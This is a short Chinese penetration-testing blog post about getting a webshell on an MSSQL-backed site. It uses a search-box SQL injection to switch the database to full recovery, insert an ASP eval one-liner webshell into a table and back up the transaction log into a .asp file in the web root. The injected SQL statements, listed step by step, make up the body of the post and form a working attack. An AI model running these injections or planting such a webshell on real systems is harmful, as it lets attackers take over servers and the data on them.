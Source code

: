 ```yaml
---
title: 利用mssql log备份得到webshell
date: 2018-03-11 13:20:00
tags: 渗透测试
categories: 渗透测试

---
```



感谢xz的耐心指导，让我学会了此手法。

开始我发现有个搜索框`sql`注入，然后一般常规的思路就是通过注入得到后台账号密码，最后通过上传漏洞得到`webshell`。但是`xz`却不是这样的，于是我问了他`getshell`的思路，他说是`mssql log`备份得到`webshell`的。

<!--more-->


下面进入正题。

我们现在可以知道搜索框有个注入，那我们就可以利用这个搜索框注入。

注意搜索型注入要闭合

![](https://ws1.sinaimg.cn/large/006Y6f53ly1fp8u0lclfbj30cn03tt8o.jpg)


具体图片我就不贴了，只说个思路。


> ;alter database 数据库名称 set RECOVERY FULL--

> ;create table cmd (a image)--

> ;backup log 数据库名称 to disk = 'd:/web/1.asp' with init

> ;insert into cmd (a) values ('<% eval request(1) %>')--

> ;backup log 数据库名称 to disk = 'd:/web/2.asp'--



一定要分开依次执行上面的`sql`语句，不然会被注释掉




![](https://ws1.sinaimg.cn/large/006Y6f53gy1fp8tkk7i3sj30ee04o0tf.jpg)


`1.asp` 保存数据库

`2.asp`是木马


总结：

- 我在操作过程中犯了很多错误，还是xz耐心指导我完成的。我发现要懂原理才行，要懂sql语句，不然连搜索型要闭合和被注释了都不知道，也不知道还有这种拿webshell的手法思路。懂原理方能更好的前进。

